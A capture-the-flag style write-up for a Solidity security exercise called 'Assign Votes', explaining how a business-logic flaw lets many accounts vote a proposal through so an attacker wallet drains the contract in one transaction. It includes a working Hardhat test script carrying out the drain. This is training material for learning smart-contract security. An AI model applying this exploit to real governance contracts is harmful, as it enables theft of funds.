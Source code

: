 # Assign Votes

## Goals

=> Drain the AssignVotes contract
=> Must exploit one transaction

### Hints

- Business logic errors (and ABI encoding Prerequisite)

### Solution

- Create a Proposal with the attackers address and the desired value (1 ETH in this case) from another account, call the assign function for your own address (not as the attackerWallet since we only have 1 transaction with that account) and call vote on the desired proposal, do that with 10 accounts and just call the execute function with the attackerWallet, so we drained the contract and did only 1 transaction with the attackerWallet

### Attacker Contract

```solidity
contract AssignVotesAttacker {
}
```

### Test

```javascript
it('conduct your attack here', async function () {
	await victimContract.createProposal(attackerWallet.address, '0x', ethers.utils.parseEther('1'));
	console.log(await victimContract.proposals(0));
	let accs = await ethers.getSigners();
	for (let i = 0; i < 11; i++) {
		if (accs[i].address !== attackerWallet.address) {
			await victimContract.connect(accs[i]).assign(accs[i].address);
			await victimContract.connect(accs[i]).vote(0);
		}
	}
	console.log(await victimContract.proposals(0));
	await victimContract.connect(attackerWallet).execute(0);
});
```
